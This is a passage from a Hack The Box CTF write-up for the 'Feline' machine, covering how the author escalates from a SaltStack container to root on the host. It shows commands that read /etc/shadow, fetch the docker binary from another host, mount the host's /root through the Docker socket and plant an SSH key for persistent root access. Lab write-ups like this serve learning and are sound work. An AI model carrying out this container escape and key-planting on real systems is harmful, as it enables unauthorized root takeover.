drwxr-xr-x   2 root root 4096 Feb  1  2020 boot
drwxr-xr-x   6 root root  360 Dec 13 22:36 dev
drwxr-xr-x   1 root root 4096 Jun 30 12:38 etc
drwxr-xr-x   2 root root 4096 Feb  1  2020 home
drwxr-xr-x   1 root root 4096 Apr 23  2020 lib
drwxr-xr-x   2 root root 4096 Apr 22  2020 lib64
drwxr-xr-x   2 root root 4096 Apr 22  2020 media
drwxr-xr-x   2 root root 4096 Apr 22  2020 mnt
drwxr-xr-x   2 root root 4096 Apr 22  2020 opt
dr-xr-xr-x 183 root root    0 Dec 13 16:52 proc
drwx------   1 root root 4096 Jun 30 12:45 root
drwxr-xr-x   1 root root 4096 Dec 13 16:52 run
drwxr-xr-x   1 root root 4096 Apr 23  2020 sbin
drwxr-xr-x   2 root root 4096 Apr 22  2020 srv
dr-xr-xr-x  13 root root    0 Dec 13 16:52 sys
drwxrwxrwt   1 root root 4096 Dec 13 22:17 tmp
drwxr-xr-x   1 root root 4096 Apr 22  2020 usr
drwxr-xr-x   1 root root 4096 Apr 22  2020 var
cd root
[*] 127.0.0.1 - Command shell session 1 closed.
```

for some reason executing some commands caused my connection to drop so I had to keep recreated the session

```text
cat /root/todo.txt
- Add saltstack support to auto-spawn sandbox dockers through events.
- Integrate changes to tomcat and make the service open to public.
```

There was no `root.txt` in the /root folder, but there was a `todo.txt`

switching the payload to cmd/unix/python//// made it much more stable

```text
echo 'ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBALitdwPZ4cTmWVPyzqI7w1UMtDj2y4uYZBCCdc2yi+tHz8y1VkLLWWH9ohWsGQEOT1L9t/Zc8emG+VqFZL/N0w= zweilos@kali' > authorized_keys
cat authorized_keys
ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBALitdwPZ4cTmWVPyzqI7w1UMtDj2y4uYZBCCdc2yi+tHz8y1VkLLWWH9ohWsGQEOT1L9t/Zc8emG+VqFZL/N0w= zweilos@kali
cd ..
cd ..
python -c 'import pty;pty.spawn("/bin/bash")'
root@2d24bf61767c:/# hostname
hostname
2d24bf61767c
```

AFter trying a number of times to put my ssh key into the authorized\_keys file and failing to log in, I realized that I was not on the host victim machine. I must be inside a VM or container...

```text
root@2d24bf61767c:/# ip a
ip a
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
5: eth0@if6: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue state UP group default 
    link/ether 02:42:ac:11:00:02 brd ff:ff:ff:ff:ff:ff link-netnsid 0
    inet 172.17.0.2/16 brd 172.17.255.255 scope global eth0
       valid_lft forever preferred_lft forever
```

the interface eth0 had an ip of 172.. which was a docker IP...I felt like this had been a bit too easy!

```text
root@2d24bf61767c:~# cat .bash_history
cat .bash_history
paswd
passwd
passwd
passswd
passwd
passwd
cd /root
ls
ls -la
rm .wget-hsts 
cd .ssh/
ls
cd ..
printf '- Add saltstack support to auto-spawn sandbox dockers.\n- Integrate changes to tomcat and make the service open to public.' > todo.txt
cat todo.txt 
printf -- '- Add saltstack support to auto-spawn sandbox dockers.\n- Integrate changes to tomcat and make the service open to public.' > todo.txt
cat todo.txt 
printf -- '- Add saltstack support to auto-spawn sandbox dockers.\n- Integrate changes to tomcat and make the service open to public.\' > todo.txt
printf -- '- Add saltstack support to auto-spawn sandbox dockers.\n- Integrate changes to tomcat and make the service open to public.\n' > todo.txt
printf -- '- Add saltstack support to auto-spawn sandbox dockers.\n- Integrate changes to tomcat and make the service open to public.\' > todo.txt
printf -- '- Add saltstack support to auto-spawn sandbox dockers.\n- Integrate changes to tomcat and make the service open to public.\n' > todo.txt
cat todo.txt 
printf -- '- Add saltstack support to auto-spawn sandbox dockers through events.\n- Integrate changes to tomcat and make the service open to public.\n' > todo.txt
cd /home/tomcat
cat /etc/passwd
exit
cd /root/
ls
cat todo.txt 
ls -la /var/run/
curl -s --unix-socket /var/run/docker.sock http://localhost/images/json
exit
```

the `root` user had a bash\_history file that hadn't been set to /dev/null, and contained a few interesting commands

```text
root@2d24bf61767c:~# curl -s --unix-socket /var/run/docker.sock http://localhost/images/json
<t /var/run/docker.sock http://localhost/images/json
[{"Containers":-1,"Created":1590787186,"Id":"sha256:a24bb4013296f61e89ba57005a7b3e52274d8edd3ae2077d04395f806b63d83e","Labels":null,"ParentId":"","RepoDigests":null,"RepoTags":["sandbox:latest"],"SharedSize":-1,"Size":5574537,"VirtualSize":5574537},{"Containers":-1,"Created":1588544489,"Id":"sha256:188a2704d8b01d4591334d8b5ed86892f56bfe1c68bee828edc2998fb015b9e9","Labels":null,"ParentId":"","RepoDigests":["<none>@<none>"],"RepoTags":["<none>:<none>"],"SharedSize":-1,"Size":1056679100,"VirtualSize":1056679100}]
```

```text
root@2d24bf61767c:~# cat /etc/passwd
cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
sshd:x:101:65534::/run/sshd:/usr/sbin/nologin
```

I mimicked a few of the commands that were in the history to see if there were any clues

```text
root@2d24bf61767c:~# cat /etc/shadow
cat /etc/shadow
root:$6$xuBu8hhhB5IfHFyz$uE5uLBJdph/cuyaTTAvVt5BRRyaLG7H5./yIVfukNpMeoYyIBGrXC7cou/bBOqDE2qbGD9OGqF8k72sq98sv9.:18443:0:99999:7:::
daemon:*:18374:0:99999:7:::
bin:*:18374:0:99999:7:::
sys:*:18374:0:99999:7:::
sync:*:18374:0:99999:7:::
games:*:18374:0:99999:7:::
man:*:18374:0:99999:7:::
lp:*:18374:0:99999:7:::
mail:*:18374:0:99999:7:::
news:*:18374:0:99999:7:::
uucp:*:18374:0:99999:7:::
proxy:*:18374:0:99999:7:::
www-data:*:18374:0:99999:7:::
backup:*:18374:0:99999:7:::
list:*:18374:0:99999:7:::
irc:*:18374:0:99999:7:::
gnats:*:18374:0:99999:7:::
nobody:*:18374:0:99999:7:::
_apt:*:18374:0:99999:7:::
sshd:*:18385:0:99999:7:::
```

from the command history I could see that root had set a password, so I copied the hash to my computer and tried to crack it...unsuccessfully

* [https://docs.docker.com/engine/reference/commandline/exec/](https://docs.docker.com/engine/reference/commandline/exec/)

```text
root@2d24bf61767c:~# docker ps
docker ps
bash: docker: command not found
```

the docker command was not installed in the container, but since it was in the host, I copied it over from other shell

[https://docs.docker.com/storage/bind-mounts/](https://docs.docker.com/storage/bind-mounts/) using this I could mount the `/root` directory of the host machine to the container and then copy my ssh key over to enable login

* [https://docs.docker.com/engine/reference/commandline/run/](https://docs.docker.com/engine/reference/commandline/run/)
* [https://docs.docker.com/engine/reference/commandline/images/](https://docs.docker.com/engine/reference/commandline/images/)
* [https://stackoverflow.com/questions/23439126/how-to-mount-a-host-directory-in-a-docker-container](https://stackoverflow.com/questions/23439126/how-to-mount-a-host-directory-in-a-docker-container)

```text
root@2d24bf61767c:~# docker ps
docker ps
bash: docker: command not found
```

docker command not availble inside container

```text
tomcat@VirusBucket:/usr/bin$ python3 -m http.server 9999
python3 -m http.server 9999
Serving HTTP on 0.0.0.0 port 9999 (http://0.0.0.0:9999/) ...
172.17.0.2 - - [13/Dec/2020 23:34:47] "GET /docker HTTP/1.1" 200 -
```

Hosted python3 http.server from tomcat user in the `/usr/bin` folder

```text
root@2d24bf61767c:~# wget http://172.17.0.1:9999/docker
wget http://172.17.0.1:9999/docker
--2020-12-13 23:34:47--  http://172.17.0.1:9999/docker
Connecting to 172.17.0.1:9999... connected.
HTTP request sent, awaiting response... 200 OK
Length: 85029616 (81M) [application/octet-stream]
Saving to: ‘docker’

docker              100%[===================>]  81.09M   334MB/s    in 0.2s    

2020-12-13 23:34:47 (334 MB/s) - ‘docker’ saved [85029616/85029616]
```

downloaded the docker program to the container

```text
root@2d24bf61767c:~# chmod +x docker
chmod +x docker
root@2d24bf61767c:~# ./docker ps   
./docker ps
CONTAINER ID        IMAGE               COMMAND                  CREATED             STATUS              PORTS                                                                  NAMES
2d24bf61767c        188a2704d8b0        "/usr/bin/dumb-init …"   5 months ago        Up 7 hours          127.0.0.1:4505-4506->4505-4506/tcp, 22/tcp, 127.0.0.1:8000->8000/tcp   saltstack
root@2d24bf61767c:~# docker images
docker images
bash: docker: command not found
root@2d24bf61767c:~# ./docker images
./docker images
\REPOSITORY          TAG                 IMAGE ID            CREATED             SIZE
sandbox             latest              a24bb4013296        6 months ago        5.57MB
<none>              <none>              188a2704d8b0        7 months ago        1.06GB
```

after some enumeration I was ready to craft my command to mount the filesystem

```text
root@2d24bf61767c:~# ./docker run -v /root:/tmp -it sandbox:latest
./docker run -v /root:/tmp -it sandbox:latest
```

I mounted `/root` from the host machine to `/tmp` in the container

```text
/ # ^[[28;5Rcd /tmp
cd /tmp
/tmp # ^[[28;8Rls -la
ls -la
total 56
drwx------    6 root     root          4096 Aug 26 14:28 .
drwxr-xr-x    1 root     root          4096 Dec 13 23:37 ..
lrwxrwxrwx    1 root     root             9 Jun 17 05:14 .bash_history -> /dev/null
-rw-r--r--    1 root     root          3106 Dec  5  2019 .bashrc
drwx------    2 root     root          4096 Jun 30 09:23 .cache
drwxr-xr-x    3 root     root          4096 Jun 30 09:31 .local
-rw-r--r--    1 root     root           161 Dec  5  2019 .profile
-rw-r--r--    1 root     root            75 Jun 30 10:23 .selected_editor
drwx------    2 root     root          4096 Jun 30 09:10 .ssh
-rw-------    1 root     root         12235 Aug 26 14:28 .viminfo
-rw-r--r--    1 root     root           165 Jun 30 11:59 .wget-hsts
-rw-------    1 root     root            33 Dec 13 16:52 root.txt
drwxr-xr-x    3 root     root          4096 May 18  2020 snap
/tmp # ^[[28;8Rcat root.txt
cat root.txt
cadbc87f7fbe8bff317c9db5063c9e63
/tmp # ^[[28;8Recho 'ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBALitdwPZ4cTmWVPyzqI7w1UMtDj2y4uYZBCCdc2yi+tHz8y1VkLLWWH9ohWsGQEOT1L9t/Zc8emG+VqFZL/N0w=' >> .ssh/authorized_keys
echo 'ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTY
AAABBBALitdwPZ4cTmWVPyzqI7w1UMtDj2y4uYZBCCdc2yi+tHz8y1VkLLWWH9ohWsGQEOT1L9t/Zc8e
mG+VqFZL/N0w=' >> .ssh/authorized_keys
```

I changed directories to `/tmp` in the container, which now mirrored `/root` on the host machine. I echoed my ssh key to `root`'s `authorized_keys` file, then tried to login with ssh

### Root.txt

```text
┌──(zweilos㉿kali)-[~/htb/feline]
└─$ ssh root@10.10.10.205 -i tomcat.key                  
Welcome to Ubuntu 20.04 LTS (GNU/Linux 5.4.0-42-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Sun 13 Dec 2020 11:38:59 PM UTC

  System load:                      0.11
  Usage of /:                       46.1% of 19.56GB
  Memory usage:                     35%
  Swap usage:                       0%
  Processes:                        211
  Users logged in:                  0
  IPv4 address for br-e9220f64857c: 172.18.0.1
  IPv4 address for docker0:         172.17.0.1
  IPv4 address for ens160:          10.10.10.205
  IPv6 address for ens160:          dead:beef::250:56ff:feb9:2c51

 * Are you ready for Kubernetes 1.19? It's nearly here! Try RC3 with
   sudo snap install microk8s --channel=1.19/candidate --classic

   https://microk8s.io/ has docs and details.

64 updates can be installed immediately.
0 of these updates are security updates.
To see these additional updates run: apt list --upgradable


The list of available updates is more than a week old.
To check for new updates run: sudo apt update

Last login: Wed Aug 26 14:28:09 2020
root@VirusBucket:~# id && hostname
uid=0(root) gid=0(root) groups=0(root)
VirusBucket
root@VirusBucket:~# ls
root.txt  snap
root@VirusBucket:~# cat root.txt
cadbc87f7fbe8bff317c9db5063c9e63
```

I was in, and got my root proof!



Thanks to [MinatoTW](https://www.hackthebox.eu/home/users/profile/8308) & [MrR3boot](https://www.hackthebox.eu/home/users/profile/13531) for... \[something interesting or useful about this machine.\]

If you like this content and would like to see more, please consider [buying me a coffee](https://www.buymeacoffee.com/zweilosec)!

